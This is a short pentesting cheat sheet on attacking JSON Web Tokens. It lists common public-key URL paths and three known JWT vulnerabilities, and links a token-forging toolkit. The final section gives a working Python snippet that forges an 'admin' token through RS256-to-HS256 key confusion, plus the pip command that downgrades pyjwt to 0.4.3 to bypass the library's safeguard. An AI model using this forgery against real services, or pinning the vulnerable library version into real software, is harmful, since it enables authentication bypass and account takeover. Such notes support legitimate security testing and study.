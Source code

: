 JSON Web Token
==============

## Finding Public Keys
Some common locations for public keys are:
```
/api/keys
/api/v1/keys
/.well-known/jwks.json
/openid/connect/jwks.json
/jwks.json
```

## Vulnerabilities
There is know vulnerabilities on JWT:

- [CVE-2015-2951](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-2951): The alg=none signature-bypass vulnerability in `JWT.php`
- [CVE-2016-10555](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10555): The RS/HS256 public key mismatch vulnerability because the server does not enforce "algorithm"
- [CVE-2018-0114](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0114): It's possible to re-sign a token using a key that is embedded within the token


## JWT Toolkit
```bash
jwt_tool.py is a toolkit for validating, forging and cracking JWTs (JSON Web Tokens).
```

[https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)


## Exploit in Python

On some vulnerable implementation, it's possible to replace the JWT algorithm
from `RS256` to `HS256`. The vulnerable library use the public key as a secret.

```python
import jwt
key = open('public_key.pem', 'r').read()
jwt.encode({"username":"admin"}, key=key, algorithm='HS256')
```

You need to install the `pyjwt` package in a specific version. In the last
versions, the library check the key is a x509 certificate:

```bash
  File ".../lib/python3.6/site-packages/jwt/algorithms.py", line 151, in prepare_key
    'The specified key is an asymmetric key or x509 certificate and'
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```

The version `0.4.3` has not this check:

```bash
pip install pyjwt==0.4.3
```
